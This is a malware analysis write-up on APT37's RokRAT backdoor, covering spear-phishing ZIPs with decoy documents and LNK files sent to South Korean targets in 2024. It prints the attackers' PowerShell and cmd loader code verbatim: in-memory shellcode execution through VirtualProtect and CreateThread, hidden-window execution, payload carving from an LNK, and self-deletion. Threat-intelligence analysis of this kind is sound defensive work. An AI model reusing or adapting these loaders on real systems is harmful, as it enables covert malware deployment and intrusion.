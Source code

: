 # ROKRAT

RokRAT is a custom-written backdoor associated with the threat group APT37 and it's name stands for Republic of Korea RAT. RokRAT is a fully-featured backdoor complete with a comprehensive set of features that empower its operators to perform efficient surveillance on the targets, in particular South Korean entities.

In order to deploy the backdoor onto the victim machine, APT37 utilizes spear-phishing emails with attached a zip file, containing PDF, HWP and .LNK files that act as decoy PDF documents, hiding powershell commands executed under the radar.

![GJeuN1LbsAANISQ](https://github.com/S4ndW4lker/APT/assets/163764116/af07a34f-531e-4653-83bb-aa0e50e90574)

(Phishing email example)

The following samples analyzed are some of the files distributed in the campaigns from February to March 2024. ([link](https://www.virustotal.com/graph/gd37ef280e73c42a9bc47faf14dfa977ad28044dcb83b48de80d07722f8a34bb5) to the virus total graph)

## 북한지 기고문 (1).zip

In the first campaign conducted in February 2024, the file [북한지 기고문 (1).zip](https://www.virustotal.com/gui/file/e914f39c7800f87e99ca4821c7a6d4ac580d99b5d70bea54d17c2b6e862b2de6) (Contribution to North Korea (1).zip) was distributed via phishing emails. It contained several decoy documents and the actual .LNK malware: [이상용.lnk](https://www.virustotal.com/gui/file/cbc777d1e018832790482e6fd82ab186ac02036c231f10064b14ff1d81832f13/detection) (Lee Sang-yong.lnk), used as a loader of the ROKRAT backdoor in memory (file-less). It gets the shellcode content contained in the public.dat file and loads it into the memory, allocated with GlobalAlloc, byte-per-byte using the for loop and the WriteByte function. The ROKRAT shellcode is then executed with CreateThread function.

```ps1
$exePath= $env:public+'\'+'public.dat';
$exeFile = Get-Content -path $exePath -encoding byte;
[Net.ServicePointManager]::SecurityProtocol = [Enum]::ToObject([Net.SecurityProtocolType], 3072);
$kernel32 = [System.Text.Encoding]::UTF8.GetString(34) + 'kernel32.dll' + [System.Text.Encoding]::UTF8.GetString(34);
$GlobalAlloc = '[DllImport(' + $kernel32 + ')]public static extern IntPtr GlobalAlloc(uint b,uint c);';
$b = Add-Type -MemberDefinition $GlobalAlloc  -Name 'AAA' -PassThru;
$VirtualProtect = '[DllImport(' + $kernel32 + ')]public static extern bool VirtualProtect(IntPtr a,uint b,uint c,out IntPtr d);';
$a90234sb = Add-Type -MemberDefinition $VirtualProtect -Name 'AAB' -PassThru;
$CreateThread = '[DllImport(' + $kernel32 + ')]public static extern IntPtr CreateThread(IntPtr a,uint b,IntPtr c,IntPtr d,uint e,IntPtr f);';
$cake3sd23 = Add-Type -MemberDefinition $CreateThread  -Name 'BBB' -PassThru;
$dtts9s03sd23 = '[DllImport(' + $kernel32 + ')]public static extern IntPtr WaitForSingleObject(IntPtr a,uint b);';
$fried3sd23 = Add-Type -MemberDefinition $dtts9s03sd23 -Name 'DDD' -PassThru;
$byteCount = $exeFile.Length;
$buffer = $b::GlobalAlloc(0x0040, $byteCount + 0x100);
$old = 0;
$a90234sb::VirtualProtect($buffer, $byteCount + 0x100, 0x40, [ref]$old);
for($i = 0; $i -lt $byteCount; $i++) { 
    [System.Runtime.InteropServices.Marshal]::WriteByte($buffer, $i, $exeFile[$i]);
};
$handle = $cake3sd23::CreateThread(0, 0, $buffer, 0, 0, 0);
$fried3sd23::WaitForSingleObject($handle, 500 * 1000);
start /min C:\Windows\SysWow64\WindowsPowerShell\v1.0\powershell.exe -windowstyle hidden "$stringPath=$env:temp+'\'+'temp.dat'; 
$stringByte = Get-Content -path $stringPath -encoding byte;
$string = [System.Text.Encoding]::UTF8.GetString($stringByte);
$scriptBlock = [scriptblock]::Create($string);
&$scriptBlock;"
```

([link](https://bazaar.abuse.ch/sample/cbc777d1e018832790482e6fd82ab186ac02036c231f10064b14ff1d81832f13/) to the 이상용.lnk sample on Malware Bazaar)

## (안보칼럼) 반국가세력에 안보기관이 무기력해서는 안된다.zip

In a second campaign conducted in February and reported on [PlainBit](https://blog.plainbit.co.kr/lnk_rokrat/) the TTPs adoped where nearly the same, the only thing to point out is the use of powershell commands inside the **(안보칼럼) 반국가세력에 안보기관이 무기력해서는 안된다.lnk** file to create the files: public.dat, temp.dat and working.bat, written with the content carried inside the same .lnk file and meticulously divided into offset units as follows.

![memory-offset-units](https://github.com/S4ndW4lker/APT/assets/163764116/541cdc33-4bbc-4bb5-9bc8-6a5e19519d7f)

The cmd command executed:

```cmd
%windir%\SysWOW64\cmd.exe /k for /f "tokens=*" %a in ('dir C:\Windows\SysWow64\WindowsPowerShell\v1.0\*rshell.exe /s /b /od') do call %a "

$t1 = 'user32.dll';
$t = 'using System; 
using System.Runtime.InteropServices; 
public class User32 {
[DllImport(' + [System.Text.Encoding]::UTF8.GetString(34) + $t1 + [System.Text.Encoding]::UTF8.GetString(34) + ', SetLastError = true)]
public static extern IntPtr FindWindow(string lpClassName, string lpWindowName);
[DllImport(' + [System.Text.Encoding]::UTF8.GetString(34) + $t1 + [System.Text.Encoding]::UTF8.GetString(34) + ')] 
[return: MarshalAs(UnmanagedType.Bool)]
public static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);
}'; 

Add-Type -TypeDefinition $t;
$proName = 'powershell.exe'; 
$cmdMainWindowHandle = [User32]::FindWindow([NullString]::Value, $proName);[User32]::ShowWindow($cmdMainWindowHandle, 0);

$dirPath = Get-Location; 
if($dirPath -Match 'System32' -or $dirPath -Match 'Program Files') {$dirPath = '%temp%'}; 

$lnkPath = Get-ChildItem -Path $dirPath -Recurse *.lnk | where-object {$_.length -eq 0x0DD6DA21} | Select-Object -ExpandProperty FullName;
$lnkFile=New-Object System.IO.FileStream($lnkPath, [System.IO.FileMode]::Open, [System.IO.FileAccess]::Read);
$lnkFile.Seek(0x0000162E, [System.IO.SeekOrigin]::Begin);
$pdfFile=New-Object byte[] 0x00042C00;
$lnkFile.Read($pdfFile, 0, 0x00042C00);
$pdfPath = $lnkPath.replace('.lnk','.hwp');
sc $pdfPath $pdfFile -Encoding Byte;& $pdfPath;

$lnkFile.Seek(0x0004422E,[System.IO.SeekOrigin]::Begin);
$exeFile=New-Object byte[] 0x000D9402;
$lnkFile.Read($exeFile, 0, 0x000D9402);
$exePath=$env:public+'\'+'public.dat';
sc $exePath $exeFile -Encoding Byte;

$lnkFile.Seek(0x0011D630,[System.IO.SeekOrigin]::Begin);
$stringByte = New-Object byte[] 0x000005AA;
$lnkFile.Read($stringByte, 0, 0x000005AA);
$batStrPath = $env:temp+'\'+'temp.dat';
$string = [System.Text.Encoding]::UTF8.GetString($stringByte);
$string | Out-File -FilePath $batStrPath -Encoding ascii;

$lnkFile.Seek(0x0011DBDA,[System.IO.SeekOrigin]::Begin);
$batByte = New-Object byte[] 0x00000135;
$lnkFile.Read($batByte, 0, 0x00000135);
$executePath = $env:temp+'\'+'working.bat';
Write-Host $executePath;
Write-Host $batStrPath;
$bastString = [System.Text.Encoding]::UTF8.GetString($batByte);
$bastString | Out-File -FilePath $executePath -Encoding ascii;& $executePath;

$lnkFile.Close();
remove-item -path $lnkPath -force;"&& exit
```

The powershell script isolated:

```ps1
# cmd 실행 창 숨기기
# Hide cmd run window
$t1 = 'user32.dll';
$t = 'using System; 
using System.Runtime.InteropServices; 
public class User32 {
    [DllImport(' + [System.Text.Encoding]::UTF8.GetString(34) + $t1 + [System.Text.Encoding]::UTF8.GetString(34) + ', SetLastError = true)]
    public static extern IntPtr FindWindow(string lpClassName, string lpWindowName);
    [DllImport(' + [System.Text.Encoding]::UTF8.GetString(34) + $t1 + [System.Text.Encoding]::UTF8.GetString(34) + ')] 
    [return: MarshalAs(UnmanagedType.Bool)]
    public static extern bool ShowWindow(IntPtr hWnd, int nCmdShow);
}'; 

Add-Type -TypeDefinition $t;
$proName = 'powershell.exe'; 
$cmdMainWindowHandle = [User32]::FindWindow([NullString]::Value, $proName);[User32]::ShowWindow($cmdMainWindowHandle, 0);

# 현재 위치가 'System32'거나 'Program Files' 하위이면 '%temp%'로 변경
# If the current location is under ‘System32’ or ‘Program Files’, change it to ‘%temp%’
$dirPath = Get-Location; 
if($dirPath -Match 'System32' -or $dirPath -Match 'Program Files') {$dirPath = '%temp%'}; 

# LNK 데이터를 분할하여 HWP 파일 생성 및 실행
# Split LNK data to create and run HWP file
$lnkPath = Get-ChildItem -Path $dirPath -Recurse *.lnk | where-object {$_.length -eq 0x0DD6DA21} | Select-Object -ExpandProperty FullName;
$lnkFile=New-Object System.IO.FileStream($lnkPath, [System.IO.FileMode]::Open, [System.IO.FileAccess]::Read);
$lnkFile.Seek(0x0000162E, [System.IO.SeekOrigin]::Begin);
$pdfFile=New-Object byte[] 0x00042C00;
$lnkFile.Read($pdfFile, 0, 0x00042C00);
$pdfPath = $lnkPath.replace('.lnk','.hwp');
sc $pdfPath $pdfFile -Encoding Byte;& $pdfPath;

# LNK 데이터를 분할하여 public.dat 파일 생성
# Split LNK data to create public.dat file
$lnkFile.Seek(0x0004422E,[System.IO.SeekOrigin]::Begin);
$exeFile=New-Object byte[] 0x000D9402;
$lnkFile.Read($exeFile, 0, 0x000D9402);
$exePath=$env:public+'\'+'public.dat';
sc $exePath $exeFile -Encoding Byte;

# LNK 데이터를 분할하여 temp.dat 파일 생성
# Split LNK data to create temp.dat file
$lnkFile.Seek(0x0011D630,[System.IO.SeekOrigin]::Begin);
$stringByte = New-Object byte[] 0x000005AA;
$lnkFile.Read($stringByte, 0, 0x000005AA);
$batStrPath = $env:temp+'\'+'temp.dat';
$string = [System.Text.Encoding]::UTF8.GetString($stringByte);
$string | Out-File -FilePath $batStrPath -Encoding ascii;

# LNK 데이터를 분할하여 working.bat 파일 생성 및 실행
# Split LNK data to create and run working.bat file
$lnkFile.Seek(0x0011DBDA,[System.IO.SeekOrigin]::Begin);
$batByte = New-Object byte[] 0x00000135;
$lnkFile.Read($batByte, 0, 0x00000135);
$executePath = $env:temp+'\'+'working.bat';
Write-Host $executePath;
Write-Host $batStrPath;
$bastString = [System.Text.Encoding]::UTF8.GetString($batByte);
$bastString | Out-File -FilePath $executePath -Encoding ascii;& $executePath;

# LNK 파일 자가 삭제
# Self-delete LNK files
$lnkFile.Close();
remove-item -path $lnkPath -force;
```

